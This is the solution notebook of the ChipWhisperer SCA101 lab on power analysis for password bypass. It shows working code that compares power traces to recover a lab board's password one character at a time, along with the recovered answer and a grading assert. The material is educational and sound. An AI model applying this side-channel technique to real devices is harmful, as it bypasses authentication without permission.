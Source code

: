 SOLUTION WITH SIMULATION: Part 2, Topic 1, Lab B: Power Analysis for Password Bypass
====================================================================================



**SUMMARY:** *This tutorial will introduce you to breaking devices by
determining when a device is performing certain operations. Our target
device will be performing a simple password check, and we will
demonstrate how to perform a basic power analysis.*

**LEARNING OUTCOMES:**

-  How power can be used to determine timing information.
-  Plotting multiple iterations while varying input data to find
   interesting locations.
-  Using difference of waveforms to find interesting locations.
-  Performing power captures with ChipWhisperer hardware (hardware only)

Prerequisites
-------------

Hold up! Before you continue, check you’ve done the following tutorials:

-  ☑ Jupyter Notebook Intro (you should be OK with plotting & running
   blocks).
-  ☑ SCA101 Intro (you should have an idea of how to get
   hardware-specific versions running).

Power Trace Gathering
---------------------

At this point you’ve got to insert code to perform the power trace
capture. There are two options here: \* Capture from physical device. \*
Read from a file.

You get to choose your adventure - see the two notebooks with the same
name of this, but called ``(SIMULATED)`` or ``(HARDWARE)`` to continue.
Inside those notebooks you should get some code to copy into the
following section, which will define the capture function.

Be sure you get the ``"✔️ OK to continue!"`` print once you run the next
cell, otherwise things will fail later on!

Choose your setup options here:


**In [1]:**

.. code:: ipython3

    SCOPETYPE = 'CWNANO'
    PLATFORM = 'CWNANO'
    VERSION = 'HARDWARE'


**In [2]:**

.. code:: ipython3

    if VERSION == 'HARDWARE':
        %run "Lab 2_1B - Power Analysis for Password Bypass (HARDWARE).ipynb"
    elif VERSION == 'SIMULATED':
        %run "Lab 2_1B - Power Analysis for Password Bypass (SIMULATED).ipynb"


**Out [2]:**



.. parsed-literal::

    SS\_VER set to SS\_VER\_1\_0
    rm -f -- basic-passwdcheck-CWNANO.hex
    rm -f -- basic-passwdcheck-CWNANO.eep
    rm -f -- basic-passwdcheck-CWNANO.cof
    rm -f -- basic-passwdcheck-CWNANO.elf
    rm -f -- basic-passwdcheck-CWNANO.map
    rm -f -- basic-passwdcheck-CWNANO.sym
    rm -f -- basic-passwdcheck-CWNANO.lss
    rm -f -- objdir/\*.o
    rm -f -- objdir/\*.lst
    rm -f -- basic-passwdcheck.s simpleserial.s stm32f0\_hal\_nano.s stm32f0\_hal\_lowlevel.s
    rm -f -- basic-passwdcheck.d simpleserial.d stm32f0\_hal\_nano.d stm32f0\_hal\_lowlevel.d
    rm -f -- basic-passwdcheck.i simpleserial.i stm32f0\_hal\_nano.i stm32f0\_hal\_lowlevel.i
    .
    Welcome to another exciting ChipWhisperer target build!!
    arm-none-eabi-gcc.exe (GNU Arm Embedded Toolchain 9-2020-q2-update) 9.3.1 20200408 (release)
    Copyright (C) 2019 Free Software Foundation, Inc.
    This is free software; see the source for copying conditions.  There is NO
    warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
    
    .
    Compiling C: basic-passwdcheck.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_0 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/basic-passwdcheck.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/basic-passwdcheck.o.d basic-passwdcheck.c -o objdir/basic-passwdcheck.o 
    .
    Compiling C: .././simpleserial/simpleserial.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_0 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/simpleserial.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/simpleserial.o.d .././simpleserial/simpleserial.c -o objdir/simpleserial.o 
    .
    Compiling C: .././hal/stm32f0\_nano/stm32f0\_hal\_nano.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_0 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f0\_hal\_nano.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f0\_hal\_nano.o.d .././hal/stm32f0\_nano/stm32f0\_hal\_nano.c -o objdir/stm32f0\_hal\_nano.o 
    .
    Compiling C: .././hal/stm32f0/stm32f0\_hal\_lowlevel.c
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_0 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/stm32f0\_hal\_lowlevel.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/stm32f0\_hal\_lowlevel.o.d .././hal/stm32f0/stm32f0\_hal\_lowlevel.c -o objdir/stm32f0\_hal\_lowlevel.o 
    .
    Assembling: .././hal/stm32f0/stm32f0\_startup.S
    arm-none-eabi-gcc -c -mcpu=cortex-m0 -I. -x assembler-with-cpp -mthumb -mfloat-abi=soft -ffunction-sections -DF\_CPU=7372800 -Wa,-gstabs,-adhlns=objdir/stm32f0\_startup.lst -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ .././hal/stm32f0/stm32f0\_startup.S -o objdir/stm32f0\_startup.o
    .
    Linking: basic-passwdcheck-CWNANO.elf
    arm-none-eabi-gcc -mcpu=cortex-m0 -I. -mthumb -mfloat-abi=soft -ffunction-sections -gdwarf-2 -DSS\_VER=SS\_VER\_1\_0 -DSTM32F030x6 -DSTM32F0 -DSTM32 -DDEBUG -DHAL\_TYPE=HAL\_stm32f0\_nano -DPLATFORM=CWNANO -DF\_CPU=7372800UL -Os -funsigned-char -funsigned-bitfields -fshort-enums -Wall -Wstrict-prototypes -Wa,-adhlns=objdir/basic-passwdcheck.o -I.././simpleserial/ -I.././hal -I.././hal/stm32f0 -I.././hal/stm32f0/CMSIS -I.././hal/stm32f0/CMSIS/core -I.././hal/stm32f0/CMSIS/device -I.././hal/stm32f0/Legacy -I.././crypto/ -std=gnu99  -MMD -MP -MF .dep/basic-passwdcheck-CWNANO.elf.d objdir/basic-passwdcheck.o objdir/simpleserial.o objdir/stm32f0\_hal\_nano.o objdir/stm32f0\_hal\_lowlevel.o objdir/stm32f0\_startup.o --output basic-passwdcheck-CWNANO.elf --specs=nano.specs --specs=nosys.specs -T .././hal/stm32f0\_nano/LinkerScript.ld -Wl,--gc-sections -lm -mthumb -mcpu=cortex-m0  -Wl,-Map=basic-passwdcheck-CWNANO.map,--cref   -lm  
    .
    Creating load file for Flash: basic-passwdcheck-CWNANO.hex
    arm-none-eabi-objcopy -O ihex -R .eeprom -R .fuse -R .lock -R .signature basic-passwdcheck-CWNANO.elf basic-passwdcheck-CWNANO.hex
    .
    Creating load file for EEPROM: basic-passwdcheck-CWNANO.eep
    arm-none-eabi-objcopy -j .eeprom --set-section-flags=.eeprom="alloc,load" \
    --change-section-lma .eeprom=0 --no-change-warnings -O ihex basic-passwdcheck-CWNANO.elf basic-passwdcheck-CWNANO.eep \|\| exit 0
    .
    Creating Extended Listing: basic-passwdcheck-CWNANO.lss
    arm-none-eabi-objdump -h -S -z basic-passwdcheck-CWNANO.elf > basic-passwdcheck-CWNANO.lss
    .
    Creating Symbol Table: basic-passwdcheck-CWNANO.sym
    arm-none-eabi-nm -n basic-passwdcheck-CWNANO.elf > basic-passwdcheck-CWNANO.sym
    Size after:
       text	   data	    bss	    dec	    hex	filename
       9848	    112	   1200	  11160	   2b98	basic-passwdcheck-CWNANO.elf
    +--------------------------------------------------------
    + Default target does full rebuild each time.
    + Specify buildtarget == allquick == to avoid full rebuild
    +--------------------------------------------------------
    +--------------------------------------------------------
    + Built for platform CWNANO Built-in Target (STM32F030) with:
    + CRYPTO\_TARGET = NONE
    + CRYPTO\_OPTIONS = AES128C
    +--------------------------------------------------------
    




.. parsed-literal::

    .././simpleserial/simpleserial.c: In function 'simpleserial\_get':
    .././simpleserial/simpleserial.c:131:10: warning: variable 'ret' set but not used [-Wunused-but-set-variable]
      131 \|  uint8\_t ret[1];
          \|          ^~~
    




.. parsed-literal::

    Serial baud rate = 38400
    INFO: Found ChipWhisperer😍
    Serial baud rate = 115200
    Detected known STMF32: STM32F03xx4/03xx6
    Extended erase (0x44), this can take ten seconds or more
    Attempting to program 9959 bytes at 0x8000000
    STM32F Programming flash...
    STM32F Reading flash...
    Verified flash OK, 9959 bytes
    Serial baud rate = 38400
    



**In [3]:**

.. code:: ipython3

    trace_test = cap_pass_trace("h\n")
    
    #Basic sanity check
    assert(len(trace_test) == 3000)
    print("✔️ OK to continue!")


**Out [3]:**



.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    




.. parsed-literal::

    ✔️ OK to continue!
    


Exploration
-----------

So what can we do with this? While first off - I’m going to cheat, and
tell you that we have a preset password that starts with ``h``, and it’s
5 characters long. But that’s the only hint so far - what can you do?
While first off, let’s try plotting a comparison of ``h`` to something
else.

If you need a reminder of how to do a plot - see the matplotlib section
of the **Jupyter Introduction** notebook.

The following cell shows you how to capture one power trace with ``h``
sent as a password. From there:

1. Try adding the plotting code and see what it looks like.
2. Send different passwords to the device. We’re only going to look at
   the difference between a password starting with ``h`` and something
   else right now.
3. Plot the different waveforms.


**In [4]:**

.. code:: ipython3

    #Example - capture 'h' - end with newline '\n' as serial protocol expects that
    trace_h = cap_pass_trace("h\n")
    
    print(trace_h)
    
    # ###################
    # START SOLUTION
    # ###################
    %matplotlib inline
    import matplotlib.pyplot as plt
    plt.figure()
    plt.plot(cap_pass_trace("h\n"))
    plt.plot(cap_pass_trace("0\n"))
    plt.show()
    # ###################
    # END SOLUTION
    # ###################


**Out [4]:**



.. parsed-literal::

    [-0.0078125   0.08203125  0.01953125 ... -0.26953125  0.01171875
      0.08203125]
    




.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    



.. image:: img/CWNANO-CWNANO-courses_sca101_SOLN_Lab2_1B-PowerAnalysisforPasswordBypass_13_2.png


For reference, the output should look something like this:

If you are using the ``%matplotlib notebook`` magic, you can zoom in at
the start. What you want to notice is there is two code paths taken,
depending on a correct or incorrect path. Here for example is a correct
& incorrect character processed:

OK interesting – what’s next? Let’s plot every possible password
character we could send.

Our password implementation only recognizes characters in the list
``abcdefghijklmnopqrstuvwxyz0123456789``, so we’re going to limit it to
those valid characters for now.

Write some code in the following block that implements the following
algorithm:

::

   for CHARACTER in LIST_OF_VALID_CHARACTERS:
       trace = cap_pass_trace(CHARACTER + "\n")
       plot(trace)
       

The above isn’t quite valid code - so massage it into place! You also
may notice the traces are way too long - you might want to make a more
narrow plot that only does the first say 500 samples of the power trace.


**In [5]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    from tqdm.notebook import tqdm
    plt.figure()
    for c in tqdm('abcdefghijklmnopqrstuvwxyz0123456789'):
        trace = cap_pass_trace(c + "\n")
        plt.plot(trace[0:500])
    
    # ###################
    # END SOLUTION
    # ###################


**Out [5]:**





.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    






.. image:: img/CWNANO-CWNANO-courses_sca101_SOLN_Lab2_1B-PowerAnalysisforPasswordBypass_16_3.png


The end result should be if you zoom in, you’ll see there is a location
where a single “outlier” trace doesn’t follow the path of all the other
traces. That is great news, since it means we learn something about the
system from power analysis.

Using your loop - you can also try modifying the analysis to capture a
correct “first” character, and then every other wrong second character.
Do you see a difference you might be able to detect?

The pseudo-code would look something like this:

::

   for CHARACTER in LIST_OF_VALID_CHARACTERS:
       trace = cap_pass_trace("h" + CHARACTER + "\n")
       plot(trace)

Give that a shot in your earlier code-block, and then let’s try and
automate this attack to understand the data a little better.

Automating an Attack against One Character
------------------------------------------

To start with - we’re going to automate an attack against a **single**
character of the password. Since we don’t know the password (let’s
assume), we’ll use a strategy of comparing all possible inputs together.

An easy way to do this might be to use something that we know can’t be
part of the valid password. As long as it’s processed the same way, this
will work just fine. So for now, let’s use a password as ``0x00`` (i.e.,
a null byte). We can compare the null byte to processing something else:


**In [6]:**

.. code:: ipython3

    %matplotlib inline
    import matplotlib.pylab as plt
    
    plt.figure()
    ref_trace = cap_pass_trace("\x00\n")[0:500]
    plt.plot(ref_trace)
    other_trace = cap_pass_trace("c\n")[0:500]
    plt.plot(other_trace)
    plt.show()


**Out [6]:**



.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    



.. image:: img/CWNANO-CWNANO-courses_sca101_SOLN_Lab2_1B-PowerAnalysisforPasswordBypass_20_1.png


This will plot a trace with an input of “:raw-latex:`\x00`” - a null
password! This is an invalid character, and seems to be processed as any
other invalid password.

Let’s make this a little more obvious, and plot the difference between a
known reference & every other capture. You need to write some code that
does something like this:

::

   ref_trace = cap_pass_trace( "\x00\n")

   for CHARACTER in LIST_OF_VALID_CHARACTERS:
       trace = cap_pass_trace(CHARACTER + "\n")
       plot(trace - ref_trace)

Again, you may need to modify this a little bit such as adding code to
make a new ``figure()``. Also notice in the above example how I reduced
the number of samples.


**In [7]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    %matplotlib inline
    import matplotlib.pylab as plt
    
    plt.figure()
    ref_trace = cap_pass_trace("h0p\x00\n")[0:500]
    
    for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
        trace = cap_pass_trace('h0p' + c + "\n")[0:500]
        plt.plot(trace - ref_trace)
    
    # ###################
    # END SOLUTION
    # ###################
        


**Out [7]:**



.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    



.. image:: img/CWNANO-CWNANO-courses_sca101_SOLN_Lab2_1B-PowerAnalysisforPasswordBypass_22_1.png


OK great - hopefully you now see one major “difference”. It should look
something like this:

What do do now? Let’s make this thing automatically detect such a large
difference. Some handy stuff to try out is the ``np.sum()`` and
``np.abs()`` function.

The first one will get absolute values:

.. code:: python

   import numpy as np
   np.abs([-1, -3, 1, -5, 6])

       Out[]: array([1, 3, 1, 5, 6])

The second one will add up all the numbers.

.. code:: python

   import numpy as np    
   np.sum([-1, -3, 1, -5, 6])

       Out[]: -2

Using just ``np.sum()`` means positive and negative differences will
cancel each other out - so it’s better to do something like
``np.sum(np.abs(DIFF))`` to get a good number indicating how “close” the
match was.


**In [8]:**

.. code:: ipython3

    import numpy as np
    np.abs([-1, -3, 1, -5, 6])


**Out [8]:**



.. parsed-literal::

    array([1, 3, 1, 5, 6])




**In [9]:**

.. code:: ipython3

    import numpy as np
    np.sum([-1, -3, 1, -5, 6])


**Out [9]:**



.. parsed-literal::

    -2




**In [10]:**

.. code:: ipython3

    np.sum(np.abs([-1, -3, 1, -5, 6]))


**Out [10]:**



.. parsed-literal::

    16



Taking your above loop, modify it to print an indicator of how closely
this matches your trace. Something like the following should work:

::

   ref_trace = cap_pass_trace( "\x00\n")

   for CHARACTER in LIST_OF_VALID_CHARACTERS:
       trace = cap_pass_trace(CHARACTER + "\n")
       diff = SUM(ABS(trace - ref_trace))

       print("{:1} diff = {:2}".format(CHARACTER, diff))


**In [11]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    ref_trace = cap_pass_trace( "h0p\x00\n")
    
    for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
        trace = cap_pass_trace("h0p" + c + "\n")
        diff = np.sum(np.abs(trace - ref_trace))
        
        print("{:1} diff = {:2}".format(c, diff))
        
    # ###################
    # END SOLUTION
    # ###################


**Out [11]:**



.. parsed-literal::

    WARNING:root:SAM3U Serial buffers OVERRUN - data loss has occurred.
    




.. parsed-literal::

    a diff = 21.1015625
    b diff = 22.6171875
    c diff = 15.8359375
    d diff = 18.90625
    e diff = 24.23828125
    f diff = 19.984375
    g diff = 16.16796875
    h diff = 19.6640625
    i diff = 24.00390625
    j diff = 19.85546875
    k diff = 22.2109375
    l diff = 20.7578125
    m diff = 22.69140625
    n diff = 17.703125
    o diff = 22.98828125
    p diff = 21.359375
    q diff = 22.21875
    r diff = 23.66015625
    s diff = 19.5390625
    t diff = 18.859375
    u diff = 22.8203125
    v diff = 21.15234375
    w diff = 21.60546875
    x diff = 78.953125
    y diff = 22.88671875
    z diff = 14.98828125
    0 diff = 20.23046875
    1 diff = 18.328125
    2 diff = 13.66015625
    3 diff = 19.80078125
    4 diff = 16.67578125
    5 diff = 20.9765625
    6 diff = 20.765625
    7 diff = 17.2890625
    8 diff = 20.01953125
    9 diff = 19.30078125
    


Now the easy part - modify your above code to automatically print the
correct password character. This should be done with a comparison of the
``diff`` variable - based on the printed characters, you should see one
that is ‘higher’ than the others. Set a threshold somewhere reasonable
(say I might use ``25.0`` based on one run).

Running a Full Attack
---------------------

Finally - let’s finish this off. Rather than attacking a single
character, we need to attack each character in sequence.

If you go back to the plotting of differences, you can try using the
correct first character & wrong second character. The basic idea is
exactly the same as before, but now we loop through 5 times, and just
build up the password based on brute-forcing each character.

Take a look at the following for the basic pseudo-code:

::

   guessed_pw = "" #Store guessed password so far

   do a loop 5 times (max password size):
       
       ref_trace = capture power trace(guessed_pw + "\x00\n")
       
       for CHARACTER in LIST_OF_VALID_CHARACTERS:
           trace = capture power trace (guessed_pw + CHARACTER + newline)
           diff = SUM(ABS(trace - ref_trace))
           
           if diff > THRESHOLD:
               
               guessed_pwd += c
               print(guessed_pw)
               
               break


**In [12]:**

.. code:: ipython3

    # ###################
    # START SOLUTION
    # ###################
    
    guessed_pw = ""
    
    
    for _ in range(0, 5):  
    
        ref_trace = cap_pass_trace(guessed_pw + "\x00\n")
        
        for c in 'abcdefghijklmnopqrstuvwxyz0123456789': 
            trace = cap_pass_trace(guessed_pw + c + "\n")
            diff = np.sum(np.abs(trace - ref_trace))
    
            if diff > 40.0:
                guessed_pw += c
                print(guessed_pw)
                break
    
    # ###################
    # END SOLUTION
    # ###################


**Out [12]:**



.. parsed-literal::

    h
    h0
    h0p
    h0px
    h0px3
    


You should get an output that looks like this:

::

   h
   h0
   h0p
   h0px
   h0px3

If so - 🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳🥳 Congrats - you did it!!!!

If not - check some troubleshooting hints below. If you get really
stuck, check the ``SOLN`` version (there is one for both with hardware
and simulated).

Troubleshooting - Always get ‘h’
--------------------------------

Some common problems you might run into - first, if you get an output
which keeps guessing the first character:

::

   h
   hh
   hhh
   hhhh
   hhhhh

Check that when you run the ``cap_pass_trace`` inside the loop (checking
the guessed password), are you updating the prefix of the password? For
example, the old version of the code (guessing a single character)
looked like this:

::

   trace = cap_pass_trace(c + "\n")

But that is always sending our first character only! So we need to send
the “known good password so far”. In the example code something like
this:

::

   trace = cap_pass_trace(guessed_pw + c + "\n")

Where ``guessed_pw`` progressively grows with the known good start of
the password.

Troubleshooting - Always get ‘a’
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

This looks like it’s always matching the first character:

::

   h
   ha
   haa
   haaa
   haaaa

Check that you update the ``ref_trace`` - if you re-use the original
reference trace, you won’t be looking at a reference where the first N
characters are good, and the remaining characters are bad. An easy way
to do this is again using the ``guessed_pw`` variable and appending a
null + newline:

::

   trace = cap_pass_trace(guessed_pw + "\x00\n")

--------------

NO-FUN DISCLAIMER: This material is Copyright (C) NewAE Technology Inc.,
2015-2020. ChipWhisperer is a trademark of NewAE Technology Inc.,
claimed in all jurisdictions, and registered in at least the United
States of America, European Union, and Peoples Republic of China.

Tutorials derived from our open-source work must be released under the
associated open-source license, and notice of the source must be
*clearly displayed*. Only original copyright holders may license or
authorize other distribution - while NewAE Technology Inc. holds the
copyright for many tutorials, the github repository includes community
contributions which we cannot license under special terms and **must**
be maintained as an open-source release. Please contact us for special
permissions (where possible).

THE SOFTWARE IS PROVIDED “AS IS”, WITHOUT WARRANTY OF ANY KIND, EXPRESS
OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY
CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT,
TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE
SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.


**In [13]:**

.. code:: ipython3

    assert guessed_pw == 'h0px3', "Failed to break password"
